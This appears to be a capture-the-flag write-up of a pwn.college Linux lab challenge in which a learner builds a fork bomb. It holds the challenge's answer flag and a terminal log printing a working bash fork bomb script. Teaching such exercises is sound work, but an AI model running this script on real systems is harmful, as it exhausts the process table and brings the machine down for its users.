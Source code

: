 # Daring Destruction

## Fork Bomb
If you create processes faster than the kernel can handle, the process table fills up and everything grinds to a halt. This new process (e.g., of an ls invocation) is ``forked'' off of a parent process (e.g., a shell instance). Thus, the induced explosion of processes is called a "Fork Bomb".

### Objective
You have the tools to do this:

write a small script (like in the Chaining Commands module)
make it executable (like in the Perceiving Permissions module)
make it launch a copy of itself in the background (like in the Processes and Jobs module)
and then launch another copy of itself in the background!
Each copy will launch two more, and each of those will launch two more, and you will flood the system with so many processes that new ones will not be able to start!

This challenge contains a /challenge/check that'll try to determine if your fork bomb is working (e.g., if it can't launch new processes) and give you the flag if so. 

### Solve
**Flag:** `pwn.college{gCWVVS-YvG6dxui5K91g-7yr-k5.QXxITM3EDLygjN0czW}`

- I launched the `/challenge/check` command in the terminal. Then opened another terminal and there I made a script 'x' and lauched it. After the system was overwhelmed, I got the flag.

```bash
hacker@destruction~the-fork-bomb:~$ /challenge/check
It looks like the system can still spawn processes. We'll check again in 5 seconds...
You successfully saturated the process table.  Here is your hard-earned flag:
pwn.college{gCWVVS-YvG6dxui5K91g-7yr-k5.QXxITM3EDLygjN0czW}
hacker@destruction~the-fork-bomb:~$ cat x
#!/bin/bash

:(){
  : | : &
  };

:
hacker@destruction~the-fork-bomb:~$
```

### New Learnings
1. We can easily overwhelm the system by creating more processes than what the kernel can handle. Fork Bomb is one of the ways we can do that.

### References
1. [Fork Bomb](https://www.youtube.com/watch?v=RhtjGp7oMvE)